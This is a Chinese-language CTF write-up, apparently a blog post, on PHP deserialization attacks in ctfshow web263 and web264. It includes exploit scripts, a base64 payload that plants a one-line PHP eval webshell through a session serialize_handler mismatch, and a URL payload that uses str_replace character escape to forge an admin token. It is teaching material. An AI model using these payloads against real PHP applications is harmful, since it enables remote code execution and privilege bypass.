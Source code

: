 ```yaml
---
title: 简单的反序列化
date: 2022/9/16 13:23:56
cover: https://i.postimg.cc/NMWzHWLm/us1.jpg
categories:
- CTF
tags:
- web
- 反序列化
---
```


# 反序列化--存储方式与字符逃逸

## session的存储方式

- `ini_set('session.serialize_handler', 'php');` 

  ```
  <?php
  session_start();
  ini_set('session.serialize_handler', 'php');
  class User{
      public $a="admin";
  }
  $user=new User();
  $_SESSION['user']=$user;
  //结果为：user|O:4:"User":1:{s:1:"a";s:5:"admin";}
  ```

- `ini_set('session.serialize_handler', 'php_serialize');`

  ```
  <?php
  ini_set('session.serialize_handler', 'php_serialize');
  session_start();
  class User{
      public $a="admin";
  }
  $user=new User();
  $_SESSION['user']=$user;
  //结果为：a:1:{s:4:"user";O:4:"User":1:{s:1:"a";s:5:"admin";}}
  ```

  这两种方式中以 `php` 作为存储方式是以 `|` 作为分隔符，**右边则是序列化的内容**，可以通过构造payload上传木马文件

### 例题：ctfshow web263

```php
# inc.php
# 设置处理方式为默认的php处理方式
ini_set('session.serialize_handler', 'php');
# 可以构造恶意参数的代码
class User{
    public $username;
    public $password;
    public $status;
    function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
    function setStatus($s){
        $this->status=$s;
    }
    function __destruct(){
        file_put_contents("log-".$this->username, "使用".$this->password."登陆".($this->status?"成功":"失败")."----".date_create()->format('Y-m-d H:i:s'));
    }
}
```

此时可以构造恶意payload

```php
<?php
session_start();
class User{
    public $username;
    public $password;
    public $status;
    function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
    function setStatus($s){
        $this->status=$s;
    }
}
# 一句话木马写长一些，以免发生未知错误
$user=new User('1.php','<?php eval($_POST[1]);phpinfo();?>');
echo base64_encode('|'.serialize($user));
# fE86NDoiVXNlciI6Mzp7czo4OiJ1c2VybmFtZSI7czo1OiIxLnBocCI7czo4OiJwYXNzd29yZCI7czozNDoiPD9waHAgZXZhbCgkX1BPU1RbMV0pO3BocGluZm8oKTs/PiI7czo2OiJzdGF0dXMiO047fQ==
?>
```

准备工作大致到这里就结束了，接下来的解题步骤

1. 在 `index.php` 中修改 `limit` 的 cookie 值，刷新界面写入木马
2. 登入 `check.php?u=admin&pass=123` ，用回显来判断是否写入成功
3. 登入 `log-1.php` ，post执行操作获取flag

## 字符逃逸问题

`str_replace` 函数会造成序列化的字符逃逸问题

### 例题：ctfshow web264

```php
# index.php
<?php
    error_reporting(0);
session_start();

class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

$f = $_GET['f'];
$m = $_GET['m'];
$t = $_GET['t'];

if(isset($f) && isset($m) && isset($t)){
    $msg = new message($f,$m,$t);
    $umsg = str_replace('fuck', 'loveU', serialize($msg));
    $_SESSION['msg']=base64_encode($umsg);
    echo 'Your message has been sent';
}

highlight_file(__FILE__);
?>
```

```php
# message.php
<?php
    session_start();
highlight_file(__FILE__);
include('flag.php');

class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

if(isset($_COOKIE['msg'])){
    $msg = unserialize(base64_decode($_SESSION['msg']));
    if($msg->token=='admin'){
        echo $flag;
    }
}
?>
```

分析代码可知只有当 token = 'admin' 的时候才能拿到flag，每次替换就可以逃逸一个字符，我们一共需要逃逸27个字符，exp如下

```php
<?php
class message{
    public $from;
    public $msg;
    public $to;
    public $token='admin';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}
# 需要做到：";s:5:"token";s:5:"admin";} 可以闭合
$f = 'a';
$m = 'b';
$t = 'fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck';
$msg= serialize(new message($f,$m,$t));
$umsg = str_replace('fuck', 'loveU', $msg);
echo serialize($umsg);
# s:232:"O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:1:"b";s:2:"to";s:108:"loveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveU";s:5:"token";s:5:"admin";}";
?>
```

构造payload

```
?f=1&m=1&t=fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:5:"token";s:5:"admin";}
```

